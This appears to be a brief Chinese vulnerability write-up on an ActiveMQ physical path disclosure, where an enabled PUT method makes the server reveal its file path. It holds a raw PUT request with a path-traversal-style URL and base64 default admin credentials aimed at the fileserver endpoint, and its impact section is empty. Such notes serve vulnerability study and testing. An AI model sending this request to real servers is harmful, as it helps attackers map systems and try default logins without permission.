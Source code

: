 ```yaml
---
title: "ActiveMQ物理路径泄漏漏洞"
id: zhfly2798
---
```


# ActiveMQ物理路径泄漏漏洞

## 一、漏洞简介

ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息

## 二、漏洞影响

## 三、复现过程

```
Request Raw:
PUT /fileserver/a../..//.././ HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4 
```